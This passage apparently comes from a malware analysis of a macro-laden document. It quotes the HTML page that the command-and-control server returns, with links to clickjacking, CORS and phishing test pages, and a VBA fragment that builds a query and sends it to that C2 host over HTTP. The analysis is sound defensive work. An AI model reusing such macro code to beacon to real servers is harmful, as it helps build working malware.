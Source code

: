     li a {
        display: inline-block;
        color: white;
        text-align: center;
        padding: 14px 16px;
        text-decoration: none;
    }
    
    li a:hover {
        background-color: #111;
    }
    
    .active {
        background-color: red;
    }
    #bg {
        width: 100%;
        height: 100%;
        position: absolute;
        top: 0;
        left: 0;
        z-index: -5000;
    }
    </style>
    </head>
    <body>
    
    <ul>
      <li><a href="#home" class="active">Home</a></li>
      <li><a href="/CORSer.html">Corser</a></li>
      <li><a href="/WSclient.html">WebSocket Client</a></li>
      <li><a href="/clickJacker.html">ClickJacking</a></li>
      <li><a href="/Facebooc.html">Phishing - Example</a></li>
    </ul>
    <div align="center"><img src="https://i.imgur.com/JZrUNZr.gif" id="bg"></div>
    </body>
    </html
    

This was my first clue that this document likely wasn’t actually in use by
malicious actor. The return page has all sorts of malicious terms in it, and
makes no attempt to hide.

I also tested HTTPS, but got no response.

Continuing with HTTP as successful, the code goes into this block, here it
builds a query, sends the request to the C2, and then pops a msgbox with
success or failure:

    
    
                    sText = BuildQuery()
    
                    If InitHTTP(myWebsite, objHTTP, sText) Then
                        MsgBox sText, vbOKOnly, "Reqeust Sent HTTP"
                    Else
                        MsgBox sText, vbOKOnly, "Failed to Initiate HTTP request"
                    End If
    